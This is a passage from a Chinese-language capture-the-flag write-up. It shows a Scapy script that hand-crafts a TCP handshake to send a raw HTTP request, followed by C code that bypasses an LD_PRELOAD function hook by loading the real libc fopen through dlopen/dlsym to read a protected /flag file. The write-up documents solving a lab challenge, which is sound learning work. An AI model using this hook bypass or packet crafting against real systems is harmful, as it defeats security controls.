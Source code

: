 ```py
    "",
    token
]

data = "\r\n".join(http_request).encode()

seq = RandInt()

SYN = TCP(sport=sport, dport=dport, flags='S', seq=seq)

SYNACK = sr1(ip / SYN)
print(f"[+] SYNACK: seq={SYNACK.seq} ack={SYNACK.ack}")

ACK = TCP(sport=sport, dport=dport, flags='A', seq=SYNACK.ack, ack=SYNACK.seq + 1)

send(ip / ACK)
print(f"[+] ACK sent: seq={ACK.seq} ack={ACK.ack}")

DATA = TCP(sport=sport, dport=dport, flags='PA', seq=SYNACK.ack, ack=SYNACK.seq + 1) / data
DATAACK = sr1(ip / DATA)

print(f"[+] DATAACK: seq={DATAACK.seq} ack={DATAACK.ack}")
```

在发送请求包的同时，给 OpenVPN 的虚拟网卡挂上 wireshark，就能获取到回复了。

当遇到流量不符合预期的时候最好的办法是重启 OpenVPN，~~别问我怎么知道的和卡了多久~~。

## 为什么要打开 /flag 😡

### LD_PRELOAD, love!

`LD_PRELOAD` 是 Linux 下的一个环境变量，可以用来指定动态链接库的加载路径，可以用来劫持函数调用。

因此我们只需要正确加载原有的 `libc.so.6` 中的函数进行使用即可。

```c
static FILE *(*real_real_fopen)(const char *restrict, const char *restrict) = NULL;

int main() {
    void *handle = dlopen("/lib/x86_64-linux-gnu/libc.so.6", RTLD_LAZY);
    real_real_fopen = dlsym(handle, "fopen");

    printf("ptr: %p\n", real_real_fopen);
    printf("pid: %d\n", getpid());

    // open flag and read
    FILE *fp = real_real_fopen("/flag", "r");

    char buf[0x100];
    fread(buf, 1, 0x100, fp);
    printf("%s\n", buf);

    return 0;
}
```
